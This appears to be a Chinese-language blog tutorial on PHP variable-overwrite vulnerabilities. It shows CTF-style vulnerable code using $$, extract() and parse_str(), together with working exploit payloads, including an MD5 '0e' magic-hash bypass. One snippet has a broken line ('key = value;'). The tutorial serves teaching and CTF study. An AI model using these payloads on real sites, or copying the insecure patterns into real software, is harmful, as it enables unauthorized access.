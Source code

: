 # php变量覆盖




> 可以用自定义的参数值替换原有变量值的情况称为变量覆盖漏洞



## 场景

- $$使用不当
- extract()函数使用不当
- parse_str()函数使用不当
- import_request_variables()使用不当
- 开启了全局变量注册
- ... ... 





## 1. $$导致的变量覆盖

> 经常在foreach中出现



使用foreach来遍历数组中的值，然后再将获取到的数组键名作为变量，数组中的键值作为变量的值

```php
<?php
    
//?name=test
//output:string(4) “name” string(4) “test” string(4) “test” test

$name='thinking';

foreach ($_GET as $key => $value)
    $$key = $value;
    var_dump($key);
    var_dump($value);
    var_dump($$key);

echo $name;

?>

```

例题：

```php

<?php
include "flag.php";
$_403 = "Access Denied";
$_200 = "Welcome Admin";

if ($_SERVER["REQUEST_METHOD"] != "POST")

    die("BugsBunnyCTF is here :p…");

if ( !isset($_POST["flag"]) )
    die($_403);

foreach ($_GET as $key => $value)
	key = value;

foreach ($_POST as $key => $value)
    $$key = $value;

	if ( $_POST["flag"] !== $flag )
		die($_403);

	echo "This is your flag : ". $flag . "\n";

	die($_200);

?>
```







## 2. extract()函数导致的变量覆盖

**extract()** 该函数使用数组键名作为变量名，使用数组键值作为变量值。针对数组中的每个元素，将在当前符号表中创建对应的一个变量。 

**语法：** `extract(array,extract_rules,prefix)`

```bash
extract 有三种形式可能导致变量覆盖:
第一种是第二个参数为EXTR_OVERWRITE,他表示如果有冲突，覆盖原有的变量。
第二种情况是只传入第一个参数，默认为EXTR_OVERWRITE模式。
第三种是第二个参数为EXTR_IF_EXISTS，他表示在当前符号表中已有同名变量时，覆盖它们的值,其他的都不注册新变量.
```



例题1

```php
<?php
$flag = 'xxx';
extract($_GET);

if (isset($gift)) {
   $content = trim(file_get_contents($flag));
   if ($gift == $content) {
       echo 'hctf{…}';
   } else {
        echo 'Oh..';
   }
} 
?>

    
    
//GET请求 ?flag=&gift=，extract()会将$flag和$gift的值覆盖了，将变量的值设置为空或者不存在的文件就满足$gift == $content。
//payload:
?flag=&gift=
```



例题2

```php
<?php if ($_SERVER["REQUEST_METHOD"] == "POST") { ?>
      <?php
        extract($_POST);
        if ($pass == $thepassword_123) { ?>
            <div class=”alert alert-success”>
                <code><?php echo $theflag; ?></code>
            </div>
        <?php } ?>
    <?php } ?>
    
    
//extract($_POST)会将POST的数据中的键名和键值转换为相应的变量名和变量值，利用这个覆盖$pass和$thepassword_123变量的值，从而满足$pass == $thepassword_123这个条件。
    
// POST Payload:
//pass=&thepassword_123=    
```











## 3. parse_str函数导致的变量覆盖

parse_str() 函数用于把查询字符串解析到变量中，如果没有array 参数，则由该函数设置的变量将覆盖已存在的同名变量。 

语法：`parse_str(string,array)`



例题1：

```php
<?php
error_reporting(0);

if (empty($_GET['id'])) {
    show_source(__FILE__);
    die();

} else {
    include ('flag.php');
    $a = "www.OPENCTF.com";
    $id = $_GET['id'];
    @parse_str($id);
    if ($a[0] != 'QNKCDZO' && md5($a[0]) == md5('QNKCDZO')) {
        echo $flag;
    } else {
        exit('其实很简单其实并不难！');
    }
}
?> 
    
    
//0e123会被当做科学计数法，0 * 10 x 123。所以需要找到一个字符串md5后的结果是0e开头后面都是数字的，如，240610708，s878926199a  
//利用php弱语言特性,
    
//使用GET请求id=a[0]=240610708，这样会将a[0]的值覆盖为240610708，然后经过md5后得到
0e462097431906509019562988736854
与md5(‘QNKCDZO’)的结果0e830400451993494058024219903391比较都是0
所以相等，满足条件，得到flag。
最终PAYLOAD： 
GET DATA: 
?id=a[0]=s878926199a 
or 
?id=a[0]=240610708
```

















---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://geoer.cn/php%E5%8F%98%E9%87%8F%E8%A6%86%E7%9B%96/  

